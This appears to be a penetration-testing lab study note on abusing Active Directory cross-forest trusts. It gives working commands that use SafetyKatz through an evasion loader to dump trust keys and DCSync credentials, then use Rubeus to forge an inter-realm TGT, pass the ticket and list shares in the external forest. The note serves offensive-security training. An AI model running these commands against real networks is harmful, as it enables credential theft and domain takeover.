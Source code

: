 ### Abuse

> [!NOTE] **IMPORTANT**
>**Unfortunately, we can only access resources that are explicitly shared by the trusting forest. This is due to the forest level being the security boundry and not the domain. Along with this the external forest DC will strip the `sIDHistory` of your ticket to make sure privileges aren't escalated**
>a
>The only way to enumerate resources on machines within a different forest is by forging a TGT for **each** machine (`cifs/ext-admin1.eurocorp.local`) then using `net view` to view whats shared

If you have Domain or Enterprise Admin in one forest you can pretty much automatically compromise an external forest.

Obtain Trust Key (as DA)
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-trust /patch"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\ecorp$" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch"
```

Forge an inter-realm TGT
```powershell
.\Loader -path .\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:2aa239e4140375cf03be3d57f889278e /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                   |
| ------------------- | ------------------------------------------------------------- |
| silver              | Name of the module                                            |
| /rc4                | NTLM hash of the trust key                                    |
| /sid                | SID of the current domain                                     |
| /sids               | SID of the **enterprise admins** group of the external Forest |
| /ldap               | Retrieve PAC information from the current domain DC           |
| /user:Administrator | Username for which the TGT is generated                       |
| /nowrap             | No newlines in the output                                     |

Use forged ticket to view possible file shares
```powershell
.\Loader -path .\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:<FORGED TICKET>
```

Test - **THIS WILL HAVE TO BE DONE ON ALL MACHINES IN AN EXTERNAL FOREST**
```powershell
net view \\eurocorp-dc.eurocorp.LOCAL

dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

> [!NOTE] **NOTE**
> Same as cross domain trust functionality, where the trusting DC only checks if it can decrypt the ticket using the **Trust Key** that both DCs have

![[Pasted image 20250519115856.png]]
### Cross Forest Kerberos Functionality
![[Pasted image 20250519115832.png]]